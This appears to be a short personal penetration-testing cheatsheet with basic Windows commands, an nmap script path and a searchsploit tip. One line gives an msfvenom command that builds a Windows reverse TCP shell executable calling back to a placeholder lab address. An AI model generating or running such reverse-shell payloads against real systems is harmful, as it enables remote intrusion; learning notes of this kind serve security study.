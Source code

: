 # Lessons Learned
This is my cheatsheet of key commands, strings, TTPS, etc. that keep popping up over and over.

## Windows
- Change directory: ```cd```
- List contents of directory: ```dir```

## Linux

## Nmap
- Nmap Scripts are stored in ```/usr/share/nmap/scripts```

## Searchsploit
- To copy from searchsploit: ```searchsploit [exploit num] -x```

## MSFVenom
- Windows Reverse TCP Shell w/ No Bad Chars: ```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.XX.XX LPORT=4444 -f exe > shell.exe```
